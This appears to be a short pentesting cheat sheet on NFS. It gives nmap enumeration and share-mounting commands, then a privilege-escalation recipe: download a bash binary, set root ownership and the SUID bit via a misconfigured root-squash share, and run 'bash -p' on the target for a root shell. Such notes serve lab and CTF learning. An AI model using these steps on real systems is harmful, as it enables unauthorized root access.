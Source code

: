 # NFS

[Network File System](https://en.wikipedia.org/wiki/Network_File_System) is a distributed file system protocol originally developed by Sun Microsystems in 1984, allowing a user on a client computer to access files over a computer network much like local storage is accessed.

## Enumerate

```bash
# install nfs-common and run a nmap full scan

sudo nmap -sS -Pn -sV -sC -oN allports -p- -T5 -vv [IP]

# use nmap to enumerate

nmap -p [PORT] --script=nfs-ls,nfs-statfs,nfs-showmount [IP]

# list the shares

/usr/sbin/showmount -e [IP]

# create mountpoint

mkdir /tmp/mount

sudo mount -t nfs [IP]:share /tmp/mount/ -nolock
```
## Exploit
You can exploit NFS shares to escalate your privileges on your target.

1. NFS Access

2. Gain Low Privilege Shell

3. Upload Bash Executable to the NFS share

4. Set SUID Permissions Through NFS Due To Misconfigured Root Squash

5. Login through SSH

6. Execute SUID Bit Bash Executable

7. ROOT ACCESS
<br></br>
```bash
# on your host download bash binary matching the version on your target

wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

sudo chown root bash

# copy the binary to the NFS share, cd into the NFS share, and set permissions

chmod +s bash
chmod +x bash

# ssh into the NFS share and run bash

./bash -p
```